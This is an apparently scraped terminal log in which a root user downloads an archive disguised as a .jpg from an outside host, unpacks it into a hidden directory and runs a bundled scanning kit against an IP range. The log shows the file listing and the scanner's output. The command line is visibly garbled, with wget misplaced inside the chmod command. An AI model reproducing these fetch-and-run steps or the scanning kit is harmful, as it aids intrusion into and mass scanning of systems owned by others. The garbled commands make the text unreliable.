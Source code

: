     server:~# http://root-arhive.do.am/scanner/scanmorf.jpg ; tar zxvf scanmorf.jpg ; cd .shm.xcgi?F6=1 ; chmod wget +x *
    --2011-01-26 23:53:38--  http://root-arhive.do.am/scanner/scanmorf.jpg
    Connecting to root-arhive.do.am:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 12466 (12K) [image/jpeg]
    Saving to: `scanmorf.jpg
    100%[======================================>] 12,466       2K/s  eta 4s

    2011-01-26 23:53:38 (2 KB/s) - `scanmorf.jpg' saved [12466/12466]

    .shm.xcgi?F6=1
    .shm.xcgi?F6=1/12.pscan.80
    .shm.xcgi?F6=1/Horde
    .shm.xcgi?F6=1/sd.pscan.80
    .shm.xcgi?F6=1/h
    .shm.xcgi?F6=1/a
    .shm.xcgi?F6=1/23.pscan.80
    .shm.xcgi?F6=1/paths
    .shm.xcgi?F6=1/ps
    .shm.xcgi?F6=1/a.pl
    .shm.xcgi?F6=1/scan

    server:/root/.shm.xcgi?F6=1# ls
    12.pscan.80 Horde       sd.pscan.80 h           a           23.pscan.80 paths       ps          a.pl        scan

    server:/root/.shm.xcgi?F6=1# ls -all
    drwxr-xr-x 1 root root  4096 2011-01-26 23:53 .
    drwxr-xr-x 1 root root  4096 2011-01-26 23:53 ..
    -rwxr-xr-x 1 root root     0 2011-01-22 02:25 12.pscan.80
    -rwxr-xr-x 1 root root 14372 2011-01-22 02:28 Horde
    -rwxr-xr-x 1 root root  9516 2011-01-22 02:25 sd.pscan.80
    -rwxr-xr-x 1 root root  2720 2006-05-05 15:56 h
    -rwxr-xr-x 1 root root    23 2006-05-05 15:55 a
    -rw-r--r-- 1 root root     0 2011-01-22 02:28 23.pscan.80
    -rwxr-xr-x 1 root root    50 2006-05-05 15:56 paths
    -rwxr-xr-x 1 root root 13432 2011-01-22 02:28 ps
    -rwxr-xr-x 1 root root  1165 2006-05-05 15:56 a.pl
    -rwxr-xr-x 1 root root   857 2011-01-22 02:28 scan

    server:/root/.shm.xcgi?F6=1# ./scan 88.198
      ___
     {o,o}
     |)__)
     -"-"-
    O RLY? y
      ___
     {o,o}
     (__(|
     -"-"-
    NO WAI!
